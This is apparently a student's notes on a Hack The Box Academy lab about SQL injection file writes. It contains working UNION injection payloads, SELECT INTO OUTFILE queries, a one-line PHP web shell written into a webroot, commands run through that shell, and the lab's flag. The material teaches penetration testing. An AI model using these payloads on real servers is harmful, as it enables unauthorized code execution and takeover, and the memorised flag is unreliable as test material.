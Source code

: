 ﻿---
sticker: lucide//database
---
When it comes to writing files to the back-end server, it becomes much more restricted in modern DBMSes, since we can utilize this to write a web shell on the remote server, hence getting code execution and taking over the server. This is why modern DBMSes disable file-write by default and require certain privileges for DBA's to write files. Before writing files, we must first check if we have sufficient rights and if the DBMS allows writing files.

---

## Write File Privileges

To be able to write files to the back-end server using a MySQL database, we require three things:

1. User withÂ `FILE`Â privilege enabled
2. MySQL globalÂ `secure_file_priv`Â variable not enabled
3. Write access to the location we want to write to on the back-end server

We have already found that our current user has theÂ `FILE`Â privilege necessary to write files. We must now check if the MySQL database has that privilege. This can be done by checking theÂ `secure_file_priv`Â global variable.

#### secure_file_priv

TheÂ [secure_file_priv](https://mariadb.com/kb/en/server-system-variables/#secure_file_priv)Â variable is used to determine where to read/write files from. An empty value lets us read files from the entire file system. Otherwise, if a certain directory is set, we can only read from the folder specified by the variable. On the other hand,Â `NULL`Â means we cannot read/write from any directory. MariaDB has this variable set to empty by default, which lets us read/write to any file if the user has theÂ `FILE`Â privilege. However,Â `MySQL`Â usesÂ `/var/lib/mysql-files`Â as the default folder. This means that reading files through aÂ `MySQL`Â injection isn't possible with default settings. Even worse, some modern configurations default toÂ `NULL`, meaning that we cannot read/write files anywhere within the system.

So, let's see how we can find out the value ofÂ `secure_file_priv`. WithinÂ `MySQL`, we can use the following query to obtain the value of this variable:


```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```

However, as we are using aÂ `UNION`Â injection, we have to get the value using aÂ `SELECT`Â statement. This shouldn't be a problem, as all variables and most configurations' are stored within theÂ `INFORMATION_SCHEMA`Â database.Â `MySQL`Â global variables are stored in a table calledÂ [global_variables](https://dev.mysql.com/doc/refman/5.7/en/information-schema-variables-table.html), and as per the documentation, this table has two columnsÂ `variable_name`Â andÂ `variable_value`.

We have to select these two columns from that table in theÂ `INFORMATION_SCHEMA`Â database. There are hundreds of global variables in a MySQL configuration, and we don't want to retrieve all of them. We will then filter the results to only show theÂ `secure_file_priv`Â variable, using theÂ `WHERE`Â clause we learned about in a previous section.

The final SQL query is the following:

```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```

So, similar to otherÂ `UNION`Â injection queries, we can get the above query result with the following payload. Remember to add two more columnsÂ `1`Â &Â `4`Â as junk data to have a total of 4 columns':

\
```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

Â Â Â 

![](https://academy.hackthebox.com/storage/modules/33/secure_file_priv.jpg)

And the result shows that theÂ `secure_file_priv`Â value is empty, meaning that we can read/write files to any location.

---

## SELECT INTO OUTFILE

Now that we have confirmed that our user should write files to the back-end server, let's try to do that using theÂ `SELECT .. INTO OUTFILE`Â statement. TheÂ [SELECT INTO OUTFILE](https://mariadb.com/kb/en/select-into-outfile/)Â statement can be used to write data from select queries into files. This is usually used for exporting data from tables.

To use it, we can addÂ `INTO OUTFILE '...'`Â after our query to export the results into the file we specified. The below example saves the output of theÂ `users`Â table into theÂ `/tmp/credentials`Â file:


```shell-session
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

If we go to the back-end server andÂ `cat`Â the file, we see that table's content:


```shell-session
smoothment@htb[/htb]$ cat /tmp/credentials 

1       admin   392037dbba51f692776d6cefb6dd546d
2       newuser 9da2c9bcdf39d8610954e0e11ea8f45f
```

It is also possible to directlyÂ `SELECT`Â strings into files, allowing us to write arbitrary files to the back-end server.


```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```

When weÂ `cat`Â the file, we see that text:

```shell-session
smoothment@htb[/htb]$ cat /tmp/test.txt 

this is a test
```


```shell-session
smoothment@htb[/htb]$ ls -la /tmp/test.txt 

-rw-rw-rw- 1 mysql mysql 15 Jul  8 06:20 /tmp/test.txt
```

As we can see above, theÂ `test.txt`Â file was created successfully and is owned by theÂ `mysql`Â user.

Tip: Advanced file exports utilize the 'FROM_BASE64("base64_data")' function in order to be able to write long/advanced files, including binary data.

---

## Writing Files through SQL Injection

Let's try writing a text file to the webroot and verify if we have write permissions. The below query should writeÂ `file written successfully!`Â to theÂ `/var/www/html/proof.txt`Â file, which we can then access on the web application:


```sql
select 'file written successfully!' into outfile '/var/www/html/proof.txt'
```

**Note:**Â To write a web shell, we must know the base web directory for the web server (i.e. web root). One way to find it is to useÂ `load_file`Â to read the server configuration, like Apache's configuration found atÂ `/etc/apache2/apache2.conf`, Nginx's configuration atÂ `/etc/nginx/nginx.conf`, or IIS configuration atÂ `%WinDir%\System32\Inetsrv\Config\ApplicationHost.config`, or we can search online for other possible configuration locations. Furthermore, we may run a fuzzing scan and try to write files to different possible web roots, usingÂ [this wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt)Â orÂ [this wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt). Finally, if none of the above works, we can use server errors displayed to us and try to find the web directory that way.

TheÂ `UNION`Â injection payload would be as follows:

```sql
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```

Â Â Â 

![](https://academy.hackthebox.com/storage/modules/33/write_proof.png)

We donâ€™t see any errors on the page, which indicates that the query succeeded. Checking for the fileÂ `proof.txt`Â in the webroot, we see that it indeed exists:

Â Â Â 
![](https://academy.hackthebox.com/storage/modules/33/write_proof_text.png)

Note: We see the string we dumped along with '1', '3' before it, and '4' after it. This is because the entire 'UNION' query result was written to the file. To make the output cleaner, we can use "" instead of numbers.

---

## Writing a Web Shell

Having confirmed write permissions, we can go ahead and write a PHP web shell to the webroot folder. We can write the following PHP webshell to be able to execute commands directly on the back-end server:


```php
<?php system($_REQUEST[0]); ?>
```

We can reuse our previousÂ `UNION`Â injection payload, and change the string to the above, and the file name toÂ `shell.php`:

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

Â Â Â Â ', â€œ â€œ, â€œ â€œ into outfile '/var/www/html/shell.php'-- -'>

![](https://academy.hackthebox.com/storage/modules/33/write_shell.png)

Once again, we don't see any errors, which means the file write probably worked. This can be verified by browsing to theÂ `/shell.php`Â file and executing commands via theÂ `0`Â parameter, withÂ `?0=id`Â in our URL:
Â Â Â 

![](https://academy.hackthebox.com/storage/modules/33/write_shell_exec_1.png)

The output of theÂ `id`Â command confirms that we have code execution and are running as theÂ `www-data`Â user.

# Question
---

![Pasted image 20250203154637.png](../../../../IMAGES/Pasted%20image%2020250203154637.png)

We can submit the following in order to get the webshell:

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

Now, we can go to `/shell.php` in the following way:

```r
http://83.136.248.110:40014/shell.php?0=id
```

![Pasted image 20250203154803.png](../../../../IMAGES/Pasted%20image%2020250203154803.png)

Now we got ourselves a webshell, let's try to look around for a flag, we can do this by using:

```r
find / -name '*.txt
```

We need to use URL encoding so:

```r
find+/+-name+'*.txt'+2>/dev/null
```

We'll see the following output:

![Pasted image 20250203155314.png](../../../../IMAGES/Pasted%20image%2020250203155314.png)

Flag is located at `/var/www/flag.txt`, let's read it using:

```
cat+/var/www/flag.txt
```

![Pasted image 20250203155402.png](../../../../IMAGES/Pasted%20image%2020250203155402.png)


Got the flag: `d2b5b27ae688b6a0f1d21b7d3a0798cd `
